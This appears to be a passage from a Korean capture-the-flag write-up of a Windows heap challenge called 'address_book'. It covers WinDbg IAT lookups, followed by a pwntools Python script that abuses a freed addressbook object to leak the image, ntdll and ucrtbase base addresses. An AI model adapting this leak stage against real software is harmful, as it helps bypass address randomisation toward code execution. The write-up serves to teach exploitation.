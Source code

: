 `!dh imagebase` 로 IAT offset을 찾고 Import된 dll 함수를 찾아볼게요



![](address_book/11.png)

`ntdll!RtlInitializeSListHead` 가 imagebase+ 0x6060에 있네요.

`ucrtbase!free` 도 imagebase + 0x61f0 인걸 확인할 수 있습니다.

vtable을 leak했을 때와 같은 방법으로 `head`를 overwrite해 해당 메모리에 있는 값을 출력하고 각각 dll 내 offset을 빼주면 dll base address를 구할 수 있습니다!



## imagebase/dll leak

```python
# 전체 코드는 아래 Exploit Code 참조
# get heap address
p.recvuntil("saved in ")
obj_leak = int(p.recvuntil("\\r\\n"),16)
print(obj_leak)

# allocation after addressbook free
# overwrite addressbook->head to recyclebin, get recyclebin's vtable
# not reliable leak, but address not changed before reboot
context.log_level = "debug"

addAddr("AAAA","AAAA","A"*16 + p64(obj_leak+0x250))
listAddr(1)
p.recvuntil("Name : ")
leak = p.recv(6)
if leak[5] != "\\x7f":
	print("vtable address not leaked")
	exit()

leak = u64(leak+"\\x00\\x00")

imagebase = leak - 0x6960
ntdll_rtlinit = imagebase + 0x6060
ucrtbase_free = imagebase + 0x61f0

# leak ntdll
modifyAddr(-1,3,"A"*16+p64(ntdll_rtlinit))
listAddr(1)
p.recvuntil("Name : ")
ntdll = u64(p.recv(6)+"\\x00\\x00") - 0x6f270

# leak ucrtbase
modifyAddr(-1,3,"A"*16+p64(ucrtbase_free))
listAddr(1)
p.recvuntil("Name : ")
ucrtbase = u64(p.recv(6)+"\\x00\\x00") - 0xe940

print("image base : "+hex(imagebase))
print("ntdll base : "+hex(ntdll))
print("ucrtbase base : "+hex(ucrtbase))
p.recvuntil('>')
```

